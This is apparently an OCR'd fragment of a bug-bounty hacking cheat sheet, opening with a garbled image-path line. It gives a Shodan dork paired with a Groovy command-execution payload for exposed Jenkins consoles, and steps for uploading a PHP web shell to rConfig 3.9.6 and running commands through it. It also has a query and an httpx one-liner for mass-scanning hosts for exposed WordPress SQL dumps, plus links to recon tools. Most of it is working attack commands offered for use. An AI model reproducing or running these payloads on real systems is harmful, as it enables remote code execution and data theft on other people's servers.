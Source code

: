 ssl:target 200 http.title:"Dashboard [Jenkins]"

payload: "ls /".execute().text

```





rConfig 3.9.6 Shell Upload:

```

	1. Login the rConfig application with your credentials.

	2. request POST with payload <?php echo $_GET["cmd"];?> 

	3. http(s)://<SERVER>/images/vendor/file.php?cmd=id The `id` command will execute on server.

```





Find Information Disclosure:

```

ssl.cert.subject.CN:"*.target.com" 200 http.title:"index"

```



```

cat hosts.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew myP1s.txt

```





VERY IMPORTANT TOOLS:

	https://github.com/ameenmaali/urldedupe

	https://github.com/six2dez/reconftw

	https://github.com/Sh1Yo/x8

	https://github.com/luke-goddard/LFI-Fuzzer-Burp-Suite

	

Nuclei-Templates:

	https://github.com/emadshanab/Nuclei-Templates-Collection

	

Crt.sh - httpx - nuclei:

	crt.sh target.com | httpx | nuclei

```